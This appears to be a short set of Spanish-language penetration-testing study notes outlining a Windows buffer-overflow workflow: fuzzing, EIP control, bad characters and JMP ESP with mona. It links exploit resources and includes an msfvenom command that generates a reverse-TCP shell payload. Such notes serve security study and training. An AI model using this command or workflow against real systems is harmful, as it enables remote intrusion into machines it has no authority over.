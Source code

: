 * [Exploit-db](https://www.exploit-db.com/)
* [Searchexploit](https://blog.ehcgroup.io/2018/11/27/01/00/39/4198/como-usar-searchsploit-para-encontrar-exploits/hacking/ehacking/)
* [Metasploit](https://www.offensive-security.com/metasploit-unleashed/exploits/)


## Buffer Overflow

	- Inmunitty Debugger

	- Crashear la APP objetivo
		-Python3 fuzzer.py

	- Control de EIP ( Puntero a la siuiente instrucción)
		- Metasploit Pattern_create, para sobrescribir EIP.

	- Encontrar Bad chars
		- !mona

	- Encontrar JMP ESP
		- !mona jmp -r esp -cpb "\x00"

	- Generar Shelcode con Metasploit
		- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PUERTO EXITFUNC=thread -b "\x00" -f c

